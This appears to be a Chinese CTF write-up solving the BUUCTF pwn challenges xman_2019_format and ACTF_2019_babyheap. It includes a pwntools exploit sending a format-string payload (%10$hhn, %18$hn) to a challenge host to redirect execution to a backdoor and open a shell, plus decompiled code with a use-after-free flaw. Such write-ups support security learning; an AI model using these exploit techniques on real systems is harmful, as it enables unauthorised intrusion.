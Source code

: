 ```shell

```

我们可以看见哦

0xffffcf58 —▸ 0xffffcf78

 0xffffcf7c —▸ 0x8048697

那么我们把78改成7c就是相当于控制ebp去指向他，那么下面7c指向0x08048697 我们把后面的8697改成后门地址就OK了



exp如下

偏移多少，就从esp开始数就好了，这个和在栈上找偏移的方法不一样 这里简单点 然后传入的地址用十进制表示

```c
from pwn import *                        
                                         
get_shell = 0x080485AB                   
                                         
while 1:                                 
    #r = process("./xman_2019_format")  
    r = remote("node4.buuoj.cn","29409")
    payload = '%12c' + '%10$hhn' +'|'    
    payload += '%34219c' + '%18$hn'      
    r.sendline(payload)                 
    try:                                 
    	r.sendline('echo pwned')        
        r.recvuntil('pwned',timeout=0.5)
        r.interactive()                 
    except:                              
        r.close()                       
```

## 2.ACTF_2019_babyheap（UAF）

UAF漏洞，给了system调用和/bin/sh字符串，修改chunk的fd bk指针即可

```c
unsigned __int64 dele()
{
  int v1; // [rsp+Ch] [rbp-24h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Please input list index: ");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0 && v1 < dword_60204C )
  {
    if ( *(&ptr + v1) )
    {
      free(*(void **)*(&ptr + v1));
      free(*(&ptr + v1));
    }
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

